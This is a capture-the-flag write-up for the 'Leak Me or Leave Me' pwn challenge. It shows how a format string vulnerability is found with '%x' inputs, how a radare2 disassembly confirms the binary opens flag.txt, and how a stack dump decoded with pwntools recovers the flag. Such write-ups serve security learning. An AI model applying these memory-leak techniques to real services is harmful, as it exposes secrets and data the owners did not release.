 Leak Me or Leave Me Pwn Challenge - Break_In CTF

```
# ./leak                                                                   
flag file seems to be missing.contact administrator .
# echo 'FL4G{fake_flag_for_test}' > flag.txt
```

```
# ./leak 
LEAK ME OR LEAVE ME
> 
```
From the name of the challenge, we can assume that it is about Format String Vulnerability. We can exploit it to leak memory from the stack by providing the "%x" format specifier

```
# ./leak
LEAK ME OR LEAVE ME
> %x %x
80 f7f055c0
```

Okay it's working. So I analyzed the binary with radare2. Disassembly of the main function shows
```
<----------------------------------------------------SNIP----------------------------------------------------->
0x0804861e      8d8390e7ffff   lea eax, dword [ebx - 0x1870]
0x0804861d      50             push eax                    ; const char *mode
0x0804861e      8d8392e7ffff   lea eax, dword [ebx - 0x186e]
0x08048624      50             push eax                    ; const char *filename
0x08048625      e866feffff     call sym.imp.fopen          ; file*fopen(const char *filename, const char *mode)
<----------------------------------------------------SNIP----------------------------------------------------->
```
So i guess it opens the flag.txt file. So the file contents must be placed on the stack. Leaking multiple address might leak it's content

```
# python -c 'print "%x " * 50' | ./leak                                                                                                               
LEAK ME OR LEAVE ME         
> 80 f7f745c0 0 0 ffe85fcc 8cc2160 47344c46 6b61667b 6c665f65 665f6761 745f726f 7d747365 f63d000a f7fc1b0c ffe86064 80482e8 f7fa2936 804823c ffe8606c 
f7fc1ab0 1 f7f92410 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 2078
2520 25207825 78252078 20782520 25207825 78252078 
```
The last addresses are the hex of "%x " input we provided. I noticed the seventh address immediately and i guess it is the "FL4G" text. I used python to confirm.

```python
Python 3.7.5 (default, Oct 27 2019, 15:43:29) 
[GCC 9.2.1 20191022] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *                                                                                                                                
>>> out = "47344c46 6b61667b 6c665f65 665f6761 745f726f 7d747365 f63d000a".split(" ")                                                                
>>> for o in out:
...     addr = p32(int('0x'+o, 16))
...     print(addr.decode(), end='')
... 
Traceback (most recent call last):
  File "<stdin>", line 3, in <module>
UnicodeDecodeError: 'utf-8' codec can't decode byte 0xf6 in position 3: invalid start byte
FL4G{fake_flag_for_test}>>>
```
Yes it is indeed our fake flag. So we can use the same technique against server to get the flag
